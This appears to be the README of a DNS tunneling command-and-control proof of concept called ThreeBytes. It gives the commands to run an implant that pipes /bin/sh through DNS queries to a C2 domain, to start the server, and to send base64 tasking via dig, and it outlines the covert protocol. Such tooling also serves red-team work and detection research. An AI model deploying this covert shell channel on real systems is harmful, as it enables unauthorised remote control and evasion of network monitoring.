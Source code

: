 ThreeBytes
==========
A simple, poorly-documented DNS tunneling PoC which sends tasking as three
bytes of an A record (to leave the firt byte free to get around GeoIP blocking)
and receives responses as punycode labels.

The same binary is used for implant, server, and log filter.

For legal use only.

Implant
-------
Give it an Implant ID, domain, and some program to run.  Example:

```bash
./threebytes -id kittens -domain example.com /bin/sh
```

C2
--
First off, for anybody who actually has to use this, I'm sorry.

The C2 server is ready to go out of the box.  It writes general log data
to stderr, but payload returned from implants to stdout.  As a convenience,
the `-log-filter` flag can be used to filter an implant's stdout/stderr from
a log stream.

```bash
nohup ./threebytes >log 2>info &
tail -f log | ./threebytes -log-filter kittens
```

It's quirky.

Tasking
-------
Tasking is done via a DNS query to a subdomain of `.tasking`.  The leftmost
label should be the implant ID and the second label from the left should be
unpadded base64-encoded tasking, less the `=`'s.  In practice, this looks
something like
```bash
while read line; do dig @localhost kittens.$(echo $line | base64 -e | tr -d '=').tasking; done
```
Note that no null bytes can be sent as tasking.

Protocol
--------
Tasking is in the form of the non-0 bytes of an A record.  It's fed to the
stdin of the implant's command.

Each output byte from the implant is first shifted to a Unicode range well
above ascii, Punycoded, then sent as a query to the server.  The server just
logs it.
